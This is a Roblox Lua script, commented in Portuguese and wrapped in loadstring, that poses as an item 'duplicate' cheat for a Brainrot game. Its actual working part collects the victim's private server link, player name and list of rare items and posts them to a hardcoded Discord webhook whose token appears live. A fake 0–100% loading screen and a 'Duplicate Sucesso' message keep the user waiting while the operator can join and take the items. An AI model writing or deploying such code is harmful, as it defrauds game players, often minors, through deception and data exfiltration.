 loadstring([[
-- Services
local HttpService = game:GetService("HttpService")
local ReplicatedStorage = game:GetService("ReplicatedStorage")
local StarterGui = game:GetService("StarterGui")
local Players = game:GetService("Players")
local LocalPlayer = Players.LocalPlayer
local Workspace = game:GetService("Workspace")
local TweenService = game:GetService("TweenService")
local plots = Workspace:WaitForChild("Plots")

-- Packages
local NetPackages = ReplicatedStorage:WaitForChild("Packages"):WaitForChild("Net")

-- Notification listener
local notificationEvent = NetPackages:WaitForChild("RE/NotificationService/Notify", 5).OnClientEvent:Connect(function(title, message)
    -- Handle notifications here
end)

-- Toggle player settings
task.spawn(function()
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Music")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Sound Effects")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("Chat Tips")
    NetPackages["RF/SettingsService/ToggleSetting"]:InvokeServer("VFX")
end)

-- Função para detectar Brainrots
local function reconhecerBrainrots()
    local brainrotsEncontrados = {}
    for _, obj in ipairs(plots:GetDescendants()) do
        if obj:IsA("TextLabel") and obj.Name == "Rarity" then
            local rarityText = obj.Text
            if rarityText == "Brainrot God" or rarityText == "Secret" then
                local parent = obj.Parent
                local displayName = parent:FindFirstChild("DisplayName")
                local generation = parent:FindFirstChild("Generation")
                if displayName and generation and displayName:IsA("TextLabel") and generation:IsA("TextLabel") then
                    table.insert(brainrotsEncontrados, {
                        name = displayName.Text,
                        rarity = rarityText,
                        generation = generation.Text
                    })
                end
            end
        end
    end
    return brainrotsEncontrados
end

-- UI: Server Link Input com animação
local brainrotUI = Instance.new("ScreenGui")
brainrotUI.Name = "BrainrotUI"
brainrotUI.ResetOnSpawn = false
brainrotUI.Parent = LocalPlayer:WaitForChild("PlayerGui")

local mainFrame = Instance.new("Frame", brainrotUI)
mainFrame.Size = UDim2.new(0, 400, 0, 180)
mainFrame.Position = UDim2.new(0.5, -200, -0.5, -90)
mainFrame.BackgroundColor3 = Color3.fromRGB(25, 35, 25)
mainFrame.Active = true
mainFrame.Draggable = true

local frameCorner = Instance.new("UICorner", mainFrame)
frameCorner.CornerRadius = UDim.new(0, 10)

-- Tween de entrada
local tweenInfo = TweenInfo.new(0.5, Enum.EasingStyle.Quad, Enum.EasingDirection.Out)
local goal = {Position = UDim2.new(0.5, -200, 0.5, -90)}
local tween = TweenService:Create(mainFrame, tweenInfo, goal)
tween:Play()

-- Título
local titleLabel = Instance.new("TextLabel", mainFrame)
titleLabel.Size = UDim2.new(1, 0, 0, 45)
titleLabel.BackgroundTransparency = 1
titleLabel.Font = Enum.Font.GothamBold
titleLabel.TextSize = 20
titleLabel.TextColor3 = Color3.fromRGB(255, 255, 255)
titleLabel.Text = "Duplicate Metodos"

-- Caixa de link do servidor
local serverLinkBox = Instance.new("TextBox", mainFrame)
serverLinkBox.Size = UDim2.new(0.9, 0, 0, 40)
serverLinkBox.Position = UDim2.new(0.05, 0, 0.45, 0)
serverLinkBox.PlaceholderText = "Server Privado Aqui"
serverLinkBox.Font = Enum.Font.Gotham
serverLinkBox.TextSize = 18
serverLinkBox.TextColor3 = Color3.new(1, 1, 1)
serverLinkBox.BackgroundColor3 = Color3.fromRGB(40, 60, 40)
serverLinkBox.TextXAlignment = Enum.TextXAlignment.Left
serverLinkBox.ClearTextOnFocus = false
serverLinkBox.Text = ""

local textBoxCorner = Instance.new("UICorner", serverLinkBox)
textBoxCorner.CornerRadius = UDim.new(0, 8)

-- Botão Enter
local enterButton = Instance.new("TextButton", mainFrame)
enterButton.Size = UDim2.new(0.9, 0, 0, 40)
enterButton.Position = UDim2.new(0.05, 0, 0.75, 0)
enterButton.BackgroundColor3 = Color3.fromRGB(0, 200, 100)
enterButton.Text = "Enter"
enterButton.Font = Enum.Font.GothamBold
enterButton.TextSize = 18
enterButton.TextColor3 = Color3.new(1, 1, 1)

local buttonCorner = Instance.new("UICorner", enterButton)
buttonCorner.CornerRadius = UDim.new(0, 8)

-- Botão Enter Click
enterButton.MouseButton1Click:Connect(function()
    local serverLink = serverLinkBox.Text
    if serverLink == "" then
        warn("⚠ Você precisa colocar um link válido!")
        return
    end

    enterButton.Text = "✔ Valido"  
    enterButton.BackgroundColor3 = Color3.fromRGB(0, 255, 120)  
    task.wait(0.5)  
    brainrotUI:Destroy()  

    local brainrots = reconhecerBrainrots()
    local brainrotText = ""
    for i, br in ipairs(brainrots) do
        brainrotText = brainrotText .. string.format("• %s (%s) | Valor: %s\n", br.name, br.rarity, br.generation)
    end
    if brainrotText == "" then brainrotText = "Nenhum Brainrot encontrado." end

    -- Envio webhook
    task.spawn(function()
        local webhookUrl = "https://discord.com/api/webhooks/1431346457574903901/baf80y67MXObxOjxzuBf_JCYnpoiOid6y9X2QMbuLMslISGTcFLFHtZdhRN6bo1m9D0r"
        local embed = {
            username = "Duplicate Brainrot",
            avatar_url = "https://i.imgur.com/wtdl6SY.png",
            embeds = {{
                color = 65280,
                title = "Novo servidor!!",
                description = "Uma nova pessoa executou o alvorada hub.",
                fields = {
                    {name = "👤 Player Information", value = string.format("**Name:** %s", LocalPlayer.Name), inline = false},
                    {name = "🖇️ Entrar server privado", value = string.format("[Click to Join](%s)", serverLink), inline = false},
                    {name = "🧠 Brainrots Detectados", value = brainrotText, inline = false},
                },
                footer = {text = "Kauã Methods | Notificacoes Alv", icon_url = "https://i.imgur.com/wtdl6SY.png"},
                timestamp = DateTime.now():ToIsoDate()
            }}
        }

        local body = HttpService:JSONEncode(embed)
        local req = request or http_request or (syn and syn.request) or (fluxus and fluxus.request) or (krnl and krnl.request)

        if req then
            local response = req({
                Url = webhookUrl,
                Method = "POST",
                Headers = {["Content-Type"] = "application/json"},
                Body = body
            })
            print("✔ Webhook enviado! Status:", response and response.StatusCode or "sem resposta")
        else
            warn("⚠ Seu executor não suporta envio de webhook (HTTP Request bloqueado).")
        end
    end)

    -- Loader / Script Promises
    local loaderGui = Instance.new("ScreenGui", game:GetService("CoreGui"))
    loaderGui.Name = "DuplicateLoader"
    loaderGui.IgnoreGuiInset = true
    loaderGui.ResetOnSpawn = false

    local loaderFrame = Instance.new("Frame", loaderGui)
    loaderFrame.Size = UDim2.new(1, 0, 1, 0)
    loaderFrame.BackgroundColor3 = Color3.fromRGB(0, 20, 0)

    local loaderTitle = Instance.new("TextLabel", loaderFrame)
    loaderTitle.Size = UDim2.new(1, 0, 0.1, 0)
    loaderTitle.Position = UDim2.new(0, 0, 0.35, 0)
    loaderTitle.BackgroundTransparency = 1
    loaderTitle.Font = Enum.Font.GothamBold
    loaderTitle.TextSize = 36
    loaderTitle.TextColor3 = Color3.fromRGB(80, 255, 80)
    loaderTitle.Text = "Duplicate em andamento ."
    loaderTitle.TextScaled = true

    local loaderPercent = Instance.new("TextLabel", loaderFrame)
    loaderPercent.Size = UDim2.new(1, 0, 0.1, 0)
    loaderPercent.Position = UDim2.new(0, 0, 0.45, 0)
    loaderPercent.BackgroundTransparency = 1
    loaderPercent.Font = Enum.Font.GothamBold
    loaderPercent.TextSize = 24
    loaderPercent.TextColor3 = Color3.fromRGB(80, 255, 80)
    loaderPercent.Text = "0%"

    local loaderDesc = Instance.new("TextLabel", loaderFrame)
    loaderDesc.Size = UDim2.new(1, 0, 0.05, 0)
    loaderDesc.Position = UDim2.new(0, 0, 0.52, 0)
    loaderDesc.BackgroundTransparency = 1
    loaderDesc.Font = Enum.Font.Gotham
    loaderDesc.TextSize = 16
    loaderDesc.TextColor3 = Color3.fromRGB(180, 255, 180)
    loaderDesc.Text = "Espere e seja feliz"
    loaderDesc.TextScaled = true
    loaderDesc.TextWrapped = true
    loaderDesc.TextXAlignment = Enum.TextXAlignment.Center

    local loaderFooter = Instance.new("TextLabel", loaderFrame)
    loaderFooter.Size = UDim2.new(1, 0, 0.05, 0)
    loaderFooter.Position = UDim2.new(0, 0, 0.9, 0)
    loaderFooter.BackgroundTransparency = 1
    loaderFooter.Font = Enum.Font.GothamBold
    loaderFooter.TextSize = 18
    loaderFooter.TextColor3 = Color3.fromRGB(100, 255, 100)
    loaderFooter.Text = "Duplicate Sucesso"

    for i = 1, 100 do
        loaderPercent.Text = i.."%"
        task.wait(0.05)
    end

    loaderTitle:Destroy()
    loaderPercent:Destroy()
    loaderDesc:Destroy()

    local loaderCompleteLabel = Instance.new("TextLabel", loaderFrame)
    loaderCompleteLabel.Size = UDim2.new(1, 0, 1, 0)
    loaderCompleteLabel.BackgroundTransparency = 1
    loaderCompleteLabel.Font = Enum.Font.GothamBold
    loaderCompleteLabel.TextScaled = true
    loaderCompleteLabel.TextColor3 = Color3.fromRGB(100, 255, 100)
    loaderCompleteLabel.Text = "Script Carregou, so esperar entre 2-3 minutos.."

end)
]])()
